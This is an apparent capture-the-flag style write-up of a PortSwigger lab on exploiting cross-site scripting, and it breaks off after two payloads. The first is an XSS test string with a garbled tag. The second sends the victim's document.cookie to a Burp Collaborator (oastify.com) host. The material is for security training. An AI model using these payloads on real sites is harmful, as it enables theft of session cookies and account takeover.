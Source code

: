 Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that
does not require Burp Collaborator. However, it is far less subtle than
exfiltrating the cookie.

References:

-   https://portswigger.net/web-security/cross-site-scripting/exploiting

First we test the XSS in one of the blog posts. This payload works:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
</p>< src=x onerror=alert(1) /><p>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/91fe4c1e85f288b8b8bd02de8d51b2ca.png)

Next we try the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
'document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
